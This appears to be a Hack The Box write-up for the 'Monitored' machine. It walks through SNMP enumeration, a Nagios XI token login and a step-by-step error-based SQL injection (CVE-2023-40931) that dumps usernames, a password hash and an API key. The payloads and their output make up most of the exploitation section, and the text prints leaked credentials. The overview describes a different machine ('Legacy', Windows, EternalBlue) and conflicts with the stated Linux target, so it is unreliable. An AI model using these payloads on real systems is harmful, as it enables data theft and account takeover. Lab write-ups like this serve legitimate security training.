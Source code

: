 ```yaml
---
title: Monitored
author: BlackLotus
description: 
draft: false
weight: 1
tags:
  - SMB
  - Windows
categories: Red Team
TocOpen: true
showReadingTime: true
showTableOfContents: true
difficulties: easy
platforms: Hack The Box
---
```




## Machine Overview

Legacy is a beginner-friendly Windows machine that demonstrates the impact of unpatched systems. This machine is vulnerable to several critical SMB exploits including MS08-067 and MS17-010 (EternalBlue).

**Target Details:**
- **IP Address:** `10.129.230.96 `
- **Operating System:** Linux
- **Difficulty:** Easy


![](images/image1.png.png)

## Initial Reconnaissance

### Port Scanning

Starting of with an Nmap TCP scan

```shell
sudo nmap -sC -sV -p- -T4 10.129.230.96 
```


**Results:**

![](images/image2.png.png)


Relevant ports open:

```bash
Port 80: http
port 22: ssh
port 389: ldap `OpenLDAP 2.2.X - 2.3.X`
Port 443: HTTP: Apache httpd 2.4.56, NagiosXI
```

Next did a Nmap UDP Scan

```shell
sudo nmap -sU --top-ports 100 -sV -T3 -Pn -n 10.129.230.96
```

![](images/image3.png.png)

Relevant ports open:

```shell
port 161: SNMPv1 server; net-snmp SNMPv3 server (public)
Port 162: net-snmp; net-snmp SNMPv3 server
```


----

### SNMP Enumeration

Used  [snmp.sh](https://github.com/Yelodash/Snmp.sh) a custom script that I made to facilitate SNMP enumeration:

```shell
snmp.sh -t 10.129.230.96 -c public --extras 
```


![](images/image4.png.png)

found these credentials but was not able to login via SSH:

```shell
user: svc
password: XjH7VCehowpR1xZB
```


----

### HTTP Enumeration


- Did not find anything interesting with Gobuster or Fuff so I went directly on the website

![](images/image5.png.png)

I tried to log in with the credentials found with SNMP but it was saying that **the user has been disabled or does not exist**

![](images/image6.png.png)


after doing some googling I found this post mentioning an insecure login to the backend using ticket authentification.

https://support.nagios.com/forum/viewtopic.php?t=58783


![](images/image7.png.png)

## Exploitation


### Getting the token

I went on burp and intercepted the login post request andkept the same **username** and **password**

![](images/image8.png.png)

I sent the request and obtain a **token**:

![](image9.png.png)

then crafted an URL which includes the token, used it on my browser and succeeded to login

```shell
https://nagios.monitored.htb/nagiosxi/?token=342e5b9ad2b46b9eaeb23c3c06d90b219d03214b
```

![](images/image10.png.png)

looking at the bottom we finally obtained the version:

```shell
Nagios XI 5.11.0
```

by doing some researches online I found out that there is a SQL injection vulnerability affecting this version:

https://rootsecdev.medium.com/notes-from-the-field-exploiting-nagios-xi-sql-injection-cve-2023-40931-9d5dd6563f8c


### Error based SQL injection

**CVE-2023-40931**

intercepted the request on Burp and saw the vulnerable parameter

```shell
POST /nagiosxi/admin/banner_message-ajaxhelper.php HTTP/1.1
```

```shell
action=acknowledge_banner_message&id=2
```

![](image11.png.png)



1. Confirming SQLi :

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,(SELECT VERSION()))
# Output:
# SQL Error [nagiosxi]: XPATH syntax error: '.23-MariaDB-0+deb11u1'
```


2. Direct Schema enumeration:

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,(SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA))
# Output:
# SQL Error: Subquery returns more than 1 row
```

3. Using group_concat() to Dump All Schemas

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,(SELECT GROUP_CONCAT(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA))
# Output:
# SQL Error: XPATH syntax error: 'information_schema,nagiosxi'
```

4. Use LIMIT to Dump Schema Names One by One:

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1)))
# Output:
# SQL Error: 'information_schema'
```

5. Repeat Full Schema Dump with clean concat:

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT GROUP_CONCAT(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA)))
# Output:
# SQL Error: 'information_schema,nagiosxi'
```

6. Dump Tables + Columns from the target DB:

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT GROUP_CONCAT(TABLE_NAME,":",COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'nagiosxi')))
```

7. Loop tables with LIMIT:

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT GROUP_CONCAT(TABLE_NAME,COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'nagiosxi' AND TABLE_NAME = 'xi_users')))
# Output: xi_usersuser_id,xi_usersusern...
```

8. Target a specific table (xi_users)

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'nagiosxi' AND TABLE_NAME = 'xi_users' LIMIT 0,1)))
# Output:
# SQL Error: 'user_id'
```


9. Extract Columns One-by-One from xi_users:

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT username FROM xi_users LIMIT 0,1)))
# Output: nagiosadmin

?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT username FROM xi_users LIMIT 1,1)))
# Output: svc
```

10. Dump Row Data from xi_users:

```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT password FROM xi_users LIMIT 0,1)))
# Output: $2a$10$825c1eec29c150b118fe7u...

?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT api_key FROM xi_users LIMIT 0,1)))
# Output (truncated): 'IudGPHd9pEKiee9MkJ7ggPD89q3Yn...'
```

 
 11. Fix API Key Truncation using SUBSTRING():
 
```sql
?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT SUBSTRING(api_key,1,28) FROM xi_users LIMIT 0,1)))
# Part 1: IudGPHd9pEKiee9MkJ7ggPD89q3Y

?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT SUBSTRING(api_key,29,56) FROM xi_users LIMIT 0,1)))
# Part 2: ndctnPeRQOmS2PQ7QIrbJEomFVG6

?action=acknowledge_banner_message&id=1 AND EXTRACTVALUE(1,concat(1, (SELECT SUBSTRING(api_key,57,70) FROM xi_users LIMIT 0,1)))
# Part 3 (safety padding): Eut9CHLL
```


**FInal API Key:

```bash
IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
```


## Creating an user:

also looking at this exploit from Exploit DB

https://www.exploit-db.com/exploits/51925

![](images/image12.png.png)

I was able to create an user and login without requiring the token.

![](images/image14.png.png)

![](images/image15.png.png)

they required me to change the password and I changed it to:

```bash
password1
```


